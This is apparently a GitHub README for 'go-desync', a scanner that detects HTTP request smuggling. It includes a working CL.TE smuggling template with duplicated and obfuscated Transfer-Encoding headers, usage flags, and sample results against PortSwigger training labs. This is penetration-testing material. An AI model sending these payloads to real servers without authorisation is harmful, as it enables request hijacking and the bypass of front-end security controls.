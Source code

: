 # go-desync
net/http makes it very challenging to send a request with malformed or duplicate headers. So for this application, it is more practical to parse a template and write it to a socket. This makes it simple to add your own payloads and may be useful for other things than request smuggling for ease of creating templates by copy/pasting from Burp.  
  
I took some ideas from this article https://www.synopsys.com/blogs/software-security/fuzzing-test-cases-not-all-random/ about the structure of the program. Separating the application into distinct sections being poet, courier, and oracle help make the code more reusable.



Example template:
```
Match: Unrecognized method GPOST
Request: |+
  POST {{.Path}} HTTP/1.1
  Host: {{.Host}}
  Content-Type: application/x-www-form-urlencoded
  Content-length: 4
  Transfer-Encoding: chunked
  Transfer-encoding: cow

  5c
  GPOST / HTTP/1.1
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 15

  x=1
  0


```

Usage:
```
$ ./smuggler -h
Usage of ./smuggler:
  -header string
    	Custom header to add to requests, example: '-header "User-Agent: garlic0x1"'
  -proxy string
    	Set the environment proxy, for example: http://example.com:8080
  -templates string
    	Directory of YAML templates to test (default "templates/")
  -threads int
    	Number of concurrent targets to test (default 5)
  -timeout int
    	Timeout (default 10)
  -tries int
    	Number of requests to send to test each template (default 5)
  -u string
    	Target URL
  -urls string
    	List of URLs
```

Example test on Portswigger labs:
```
$ go-desync -urls targets.test 
https://ace01f7b1ead19f2c0064c7300d500e6.web-security-academy.net/ is vulnerable, payload: templates/clte.yaml
https://ace01f7b1ead19f2c0064c7300d500e6.web-security-academy.net/ is vulnerable, payload: templates/diffclte.yaml
https://accb1f2b1ff036edc0495a6d00cf00be.web-security-academy.net/ is vulnerable, payload: templates/obfuscateTE.yaml
https://accb1f2b1ff036edc0495a6d00cf00be.web-security-academy.net/ is vulnerable, payload: templates/tecl.yaml
```
